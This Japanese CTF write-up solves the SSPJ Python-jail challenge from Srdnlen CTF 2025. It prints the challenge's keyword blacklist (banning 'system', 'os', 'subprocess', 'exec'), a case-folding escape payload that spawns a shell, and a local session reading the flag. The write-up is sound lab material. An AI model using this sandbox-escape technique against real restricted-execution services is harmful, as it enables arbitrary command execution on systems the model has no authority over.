 +++
author = "Hugo Authors"
title = "Srdnlen CTF 2025"
date = "2025-01-20"
description = ""
tags = [
    "CTF",
    "writeup",
    "srdnlen",
]
categories = [
    "Security",
    "Programming",
]
image = "https://raw.githubusercontent.com/stark2420/starknote/refs/heads/main/static/image/srdnlen-ctf-2025/cover.png"
+++

2025/1/19 03:00(JST) - 2025/1/20 03:00(JST)で開催された Srdnlen CTF 2025 に参加した．

<!--more-->
開催期間後に解いた問題をまとめる．

https://ctf.srdnlen.it/

https://ctftime.org/event/2576

公式Writeup：
https://github.com/srdnlen/srdnlenctf-2025_public

## MISC
### SSPJ 
> nc ~

サニタイズされた任意のコマンドを実行できるPyjail, PyExec問題．いくつかのアルファベットや記号，単語は使えない．

```py
class SSPJ(object):
    def __init__(self):
        print("Welcome to the Super Secure Python Jail (SSPJ)!")
        print("You can run your code here, but be careful not to break the rules...")

        self.code = self.code_sanitizer(input("Enter your data: "))

        # I'm so confident in my SSPJ that 
        # I don't even need to delete any globals/builtins
        exec(self.code, globals())
        return

    def code_sanitizer(self, code: str) -> str:
        if not code.isascii():
            print("Alien material detected... Exiting.")
            exit()

        banned_chars = [
            # Why do you need these characters?
            "m", "o", "w", "q", "b", "y", "u", "h", "c", "v", "z", "x", "k"
        ]

        banned_digits = [
            # Why do you need these digits?
            "0", "7", "1"
        ]

        banned_symbols = [
            # You don't need these...
            ".", "(", "'", "=", "{", ":", "@", '"', "[", "`"
        ]

        banned_words = [
            # Oh no, you can't use these words!
            "globals", "breakpoint", "locals", "self", "system", "open",
            "eval", "import", "exec", "flag", "os", "subprocess", "input",
            "random", "builtins", "code_sanitizer"
        ]

        blacklist = banned_chars + banned_digits + banned_symbols + banned_words
        random.shuffle(blacklist)

        if any(map(lambda c: c in code, blacklist)):
            print("Are you trying to cheat me!? Emergency exit in progress.")
            exit()

        return code.lower()
```

Pyjail, PyExec問題では，[Pyjail Cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet)によくまとまっている．
今回は，以下が使える．
```
from os import system as __getattr__; from __main__ import sh
```
アルファベットの小文字の一部がサニタイズされているため，そのままでは上手くいかない．全て大文字で上手くいく．
```
FROM OS IMPORT SYSTEM AS __GETATTR__; FROM __MAIN__ IMPORT SH
```

今回は，開催期間後にローカルで実行した様子を示す．
```
$ docker-compose up
$ nc 127.0.0.1 1717
Welcome to the Super Secure Python Jail (SSPJ)!
You can run your code here, but be careful not to break the rules...
Enter your data: FROM OS IMPORT SYSTEM AS __GETATTR__; FROM __MAIN__ IMPORT SH

ls
flag-5d67dabaeb377feb4e8f79f80dd546f9.txt
sspj.py

cat flag-5d67dabaeb377feb4e8f79f80dd546f9.txt
srdnlen{REDACTED}
```
